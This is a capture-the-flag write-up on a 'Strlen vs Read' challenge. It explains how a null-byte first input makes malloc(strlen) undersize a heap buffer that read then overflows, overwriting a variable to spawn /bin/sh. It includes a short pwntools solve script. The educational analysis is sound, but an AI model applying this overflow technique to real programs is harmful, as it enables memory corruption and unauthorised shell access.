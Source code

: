 # Strlen vs Read Writeup

This challenge is a relatively simple program that takes two inputs, and xors them together.

In order to solve the challenge, we have to find a way to modify the variable changeme, which is allocated on the heap and starts at 0xff, and is never directly modified in the program.
```c
int * changeme = malloc(sizeof(int));
*changeme = 255;
printf("Reality: %d\n", *changeme);

...

if (*changeme != 0xff) {
    system("/bin/sh");
}
```

Your first input is on the stack and has a max size of 256 bytes:
```c
char buffer[256];
int len = 256;

printf("Neo, enter your matrix: ");
len = read(0, buffer, len);
```

The second input is on the heap and has a max size equal to the length of your previous input.
```
char * buffer2 = malloc(strlen(buffer));

...

printf("Make your choice: ");
len = read(0, buffer2, len);
```

This is where the bug lies. The size of `buffer2` is `strlen(buffer)`, while the number of bytes read in is the actual length of your previous input. The length `strlen` calculates is the index of the first null byte in your input, wheras `read` returns the number of characters read.

This means that if your first input is `\x00AAAAAA`, `malloc(1)` will be called, yet read will read in 8 bytes. Since `buffer2` is allocated before `changeme`, overflowing into changeme is simple: The first input should start with a null byte, then have a large number of characters afterwards, then buffer2 will overlap with changeme.

The minimum size between allocations is 32 bytes in this situation, which means that if our 1st byte is a null byte (causing `malloc(1)`), then our second input should have 32 bytes of padding, then the next integer will overwrite changeme. This can be determined with two easy ways: dumping memory in gdb, or using the `cyclic` and `cyclic_find` functions provided by pwntools.

The only complexity left is the xor function. If we were required to set changme to a specific value, we would need to pay close attention to the result of the xor. However, since all that is required is changing the value, as long as our buffer overruns the location of changeme in memory, we should have a solution.

A simple solve script is as follows:
```
from pwn import *
p = process("./strlenvsread")
p.sendline(b"\x00" + b"A" * 254)
p.sendline(b"o" * 32 + p32(1337))

p.interactive()
```
